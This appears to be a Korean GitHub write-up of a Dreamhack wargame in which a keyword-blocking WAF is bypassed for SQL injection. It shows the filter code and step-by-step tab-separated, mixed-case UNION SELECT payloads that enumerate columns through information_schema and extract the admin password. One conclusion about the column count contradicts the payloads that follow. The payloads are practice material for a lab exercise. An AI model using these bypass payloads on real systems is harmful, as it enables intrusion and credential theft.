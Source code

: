 ## Dreamhack_by_pass_sqli
Dreamhack 해커들의 놀이터 SQL Injection bypass WAF 풀기

## Black Box 방식으로 공격해보기
> ![image](https://github.com/hanmin0512/dreamhack_by_pass_sqli/assets/37041208/a19047d6-ca96-4e23-b911-396ea5c9dca9)

> ![image](https://github.com/hanmin0512/dreamhack_by_pass_sqli/assets/37041208/a9db8751-a5ce-47e8-8a17-a7e4846b26d1)

- sql 문법이 막히는 것을 보아 필터링이 되는 것 같다

## 코드 분석하기.

```
keywords = ['union', 'select', 'from', 'and', 'or', 'admin', ' ', '*', '/']
def check_WAF(data):
    for keyword in keywords:
        if keyword in data:
            return True

    return False

@app.route('/', methods=['POST', 'GET'])
def index():
    uid = request.args.get('uid')
    if uid:
        if check_WAF(uid):
            return 'your request has been blocked by WAF.'
```
위 코드를 보면 sql 특적 키워드들이 값으로 들어오면 필터링 돼서 WAF로 인해 막힌다는 메시지가 출력된다.
그렇다면 소문자를 대문자로 바꿔 컬럼 갯수를 알아내는 공격을 해보자.

- 컬럼 수 확인하기.
```
'	oRder	by	1#
'	oRder	by	2#
'	oRder	by	3#
'	oRder	by	4#
```
> ![image](https://github.com/hanmin0512/dreamhack_by_pass_sqli/assets/37041208/cc963842-806d-4f2f-b366-b01a3cb4df73)

> ![image](https://github.com/hanmin0512/dreamhack_by_pass_sqli/assets/37041208/148149c7-dd6b-4643-aa78-4152a8b4c720)

> ![image](https://github.com/hanmin0512/dreamhack_by_pass_sqli/assets/37041208/9a198866-a0f5-4892-af3f-c4caf7078997)
 
> ![image](https://github.com/hanmin0512/dreamhack_by_pass_sqli/assets/37041208/24837302-278d-4e81-b9c6-c0e31cdbfc7f) ![image](https://github.com/hanmin0512/dreamhack_by_pass_sqli/assets/37041208/3ad6428f-4124-4a14-a4bc-2cfe66958196)

'	oRder	by	4# 에서 에러가 발생하는것으로 보아 컬럼의 갯수는 1개이다.

## 컬럼특성 및 DB version 확인하기.
```
'	Union	Select	@@version,null,null#
'	Union	Select	null,@@version,null#
```
- 위 구문으로 2번째 컬럼이 문자열이라는 것을 알아 냈다. 또한 DB 버전도 알아냈다.
> ![image](https://github.com/hanmin0512/dreamhack_by_pass_sqli/assets/37041208/62084023-65c8-4edd-8eff-d695daeeef5b)
> ![image](https://github.com/hanmin0512/dreamhack_by_pass_sqli/assets/37041208/5a292eba-c7ad-41fb-949f-ce037602a4bd)

## 컬럼명 확인하기
- 테이블 명이 user라고 나와 있으므로 그걸 이용해 데이터베이스 information_schema.columns 테이블에 있는 값으로 user테이블의 컬럼명을 알아보자.
```
'	Union	Select	null,column_name,null	From	infOrmation_schema.columns	Where	table_name='user'#
'	Union	Select	null,column_name,null	From	infOrmation_schema.columns	Where	table_name='user'	LIMIT	1	OFFSET	1#
'	Union	Select	null,column_name,null	From	infOrmation_schema.columns	Where	table_name='user'	LIMIT	1	OFFSET	2#
```
- 위 sqli 공격으로 3개의 컬럼명을 알아냈다.
> ![image](https://github.com/hanmin0512/dreamhack_by_pass_sqli/assets/37041208/0fc9cc40-d60c-4c2d-80c5-1185d978a839)
> ![image](https://github.com/hanmin0512/dreamhack_by_pass_sqli/assets/37041208/b55d4c81-6948-478a-8c2d-830ca2b503fc)
> ![image](https://github.com/hanmin0512/dreamhack_by_pass_sqli/assets/37041208/c6a24639-6871-44a6-86c9-98f0b2065d2a)

## flag 값 확인하기.
- 우리는 컬럼명, 컬럼 갯수를 알아냈으므로 그 정보를 이용해 flag 값을 알아낼것이다. flag는 uid가 admin인 행의 upw값이다.
```
'	Union	Select	null,upw,null	From	user	Where	uid=concat('ad','min')#
```
> ![image](https://github.com/hanmin0512/dreamhack_by_pass_sqli/assets/37041208/285d849b-11e1-46b6-af6c-83abea29c17b)



